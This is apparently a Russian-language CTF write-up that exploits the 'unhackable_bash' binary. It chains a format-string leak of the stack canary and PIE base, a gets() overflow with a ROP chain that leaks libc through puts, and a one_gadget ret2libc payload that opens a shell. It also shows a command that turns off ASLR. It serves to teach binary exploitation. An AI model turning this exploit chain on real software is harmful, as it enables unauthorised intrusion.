 Описание эксплойта
===

Сначала проверяем бинарный файл

```bash
file publish/unhackable_bash && checksec publish/unhackable_bash
```

![Check](../images//check.jpg)

Важные для нас моменты - включённые [pie](https://pwn.college/concepts/pie.html) и [stack canary](https://ctf101.org/binary-exploitation/stack-canaries/)

Первое означает, что для получения shell нам сначала нужно будет узнать `PIEBASE`, то есть базовый адрес, по которому ОС загрузила нашу программу в память. Без него, читая бинарник, мы можем узнать лишь смещения адресов функций относительного базового адреса

![Functions](../images/functions.jpg)

Наличие стековых канареек не позволяет сразу использовать `ret2libc` и в целом перехватывать контроль над программой, перетирая адреса возврата из функций. Следовательно, в какой-то момент нашего эксплойта мы должны узнать значение стековой канарейки (оно одно на всю программу), чтобы в дальнейшем подставлять его при переполнениях

Для дальнейшего анализа воспользуемся декомпилятором `Cutter`. Проматривая полученный псевдокод на С, находим 2 потенциально уязвимые функции, `read_file` и `get_feedback`. Первая использует `gets`, небезопасное чтение из `stdin` в буффер, которое не проверяет длину считываемой строки, таким образом позволяя переполнить буффер и переписать значения на стэке. Вторая функция использует уже безопасное чтение из файла `fgets`, однако печатает строку через `printf` как литерал, допуская уязвимость форматной строки и чтение данных со стека

![Format string](../images/format_strinf.jpg)

> Для локального анализа будет полезно отключить ASLR, чтобы программа загружалась в память каждый раз по одному и тому же адресу
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
``` 

Напишем простой скрипт [`fuzz.py`](./fuzz.py) для автоматизации проверок печатаемых значений. Наша цель - узнать канарейку и `PIEBASE`. Прогоняя скрипт вместе с `gdb`, находим на каком месте в стэке расположена канарейка и адрес какой-либо функции. Затем вычитая из адреса функции его смещение (оно статически вшито в бинарный файл), мы получаем базовый адрес

```python
# Leak 2 values from stack, address to calculate piebase and canary
io.sendlineafter(b'learned', '%{}$p %{}$p'.format(
    address_stack_offset, canary_stack_offset).encode())

io.recvuntil(b': ')

address_str, canary_str = str(io.recvline(), 'utf-8').split(' ')

leaked_address = int(address_str, 16)
leaked_cannary = int(canary_str, 16)

# Now calculate the piebase using known static address offset
exe.address = leaked_address - pie_offset

# Print leaked values for debug
info("piebase: %#x", exe.address)
info("leaked canary: %#x", leaked_cannary)
```

Теперь нам нужно узнать базовый адрес `libc`. Для этого мы распечатаем адрес какой-то функции из `got.plt` и вычтем её относительное смещение. Значит нам нужна какая-то функция из `libc` которая уже была вызвана в программе до этого, чтобы её адрес попал в `plt`. Для этого удобно подойдёт `puts`, с помощью которой мы потом и распечатаем адрес самой `puts`. Но нам нужно ещё положить адрес в регистр `rdi`, ведь именно значение из него используется в `puts`.

Воспользуемся командной утилитой `ropper` и найдём адрес гаджета (а точнее его смещение относительно базового) который выполнит `pop rdi`.

![Ropper](../images/ropper.jpg)

Составим вредоносный `payload`, который выведет адрес `puts` в результате и отправим его, а в самом конце перетрём адрес возврата снова на функцию `read_file`

```python
# Construct payload to leak libc address
payload = flat({
    buffer_offset: [
        leaked_cannary,  # leaked canary to safely take up on the control flow
        b'junkjunk',     # just need to feel the offset
        pop_rdi_gadget,  # pop rdi; ret
        exe.got.puts,    # get GOT address of puts as argument to next call of puts
        exe.plt.puts,    # Call puts() to leak the GOT.puts address
        exe.symbols.read_file # rewrite return address with read_file again
    ]
})

# Send payload and skip 1 line
io.sendline(payload)
io.recvline()

# Read and unpack got address for puts
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))

# Calculate libc base address using puts offset
libc.address = got_puts - libc.symbols.puts

info("libc_base: %#x", libc.address)
```

Используем утилиту `one_gadget` чтобы найти гаджет в `libc` который и даст нам shell. Нам подходит самый первый

![One gadget](../images/one_gadget.jpg)

Теперь у нас есть всё необходимое для того чтобы выполнить `ret2libc с захватом shell`.

```python
# Knowing libc address, we can calculate our shell gadget address
shell_gadget = libc.address + shell_gadget_offset

# Same payload as before but with libc gadget now
payload = flat({
    buffer_offset: [
        leaked_cannary,
        b'junkjunk',
        shell_gadget  # system('/bin/sh')
    ]
})

# Send payload
io.recvuntil(b'filename')
io.sendline(payload)

# Skip line
io.recvline()

# Get shell
io.interactive()
```

# Результат работы скрипта

### Локально

![Local](../images/local.jpg)

### Удалённо

![Remote](../images/result.jpg)

